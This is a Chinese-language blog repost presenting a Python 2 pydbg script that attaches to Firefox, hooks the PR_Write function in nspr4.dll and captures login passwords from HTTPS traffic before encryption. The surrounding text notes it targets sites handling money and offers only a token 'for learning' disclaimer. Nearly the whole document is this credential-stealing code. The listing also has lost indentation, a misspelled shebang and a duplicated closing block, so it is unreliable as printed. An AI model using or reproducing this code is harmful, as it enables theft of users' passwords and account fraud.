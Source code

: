 相对于http协议，http是的特点就是他的安全性，http协议的通信内容用普通的嗅探器可以捕捉到，但是https协议的内容嗅探到的是加密后的内容，对我们的利用价值不是很高，所以一些大的网站
----
涉及到“大米”的网站，采用的都是http是协议，嘿嘿，即便这样，还是有办法能看到他的用户名和密码的，嘿嘿，本文只是用于技术学习，只是和大家交流技术，希望不要用于做违法的事情，这个例子是在firefox浏览器下登录https协议的网站，我们预先打开程序，就来了个捕获用户名和密码：

下面是源代码：

_复制代码_ 代码如下:

  
#!/ur/bin/env python  
from pydbg import *  
from pydbg.defines import *  
  
import utils  
import sys  
  
dbg = pydbg()  
found_firefox = False  
  
pattern = "password"  
  
  
def ssl_sniff( dbg, args ):  
buffer = ""  
offset = 0  
  
while 1:  
byte = dbg.read_process_memory( args[1] + offset, 1 )  
if byte != "x00":  
buffer += byte  
offset += 1  
continue  
else:  
break  
if pattern in buffer:  
print "Pre-Encrypted: %s" % buffer  
return DBG_CONTINUE  
# 寻找firefox.exe的进程  
for (pid, name) in dbg.enumerate_processes():  
if name.lower() == "firefox.exe":  
found_firefox = True  
hooks = utils.hook_container()  
dbg.attach(pid)  
print "[*] Attaching to firefox.exe with PID: %d" % pid  
# 得到firefox的hook的 address  
hook_address = dbg.func_resolve_debuggee("nspr4.dll","PR_Write")  
if hook_address:  
# 添加hook的内容，包括他的pid，地址，嗅探类型  
  
hooks.add( dbg, hook_address, 2, ssl_sniff, None )  
print "[*] nspr4.PR_Write hooked at: 0x%08x" % hook_address  
break  
else:  
print "[*] Error: Couldn't resolve hook address."  
sys.exit(-1)  
if found_firefox:  
print "[*] Hooks set, continuing process."  
dbg.run()  
else:  
print "[*] Error: Couldn't find the firefox.exe process."  
sys.exit(-1)  
  
if found_firefox:  
print "[*] Hooks set, continuing process."  
dbg.run()  
else:  
print "[*] Error: Couldn't find the firefox.exe process."  
sys.exit(-1)  

转自：  http://world77.blog.51cto.com/414605/518679

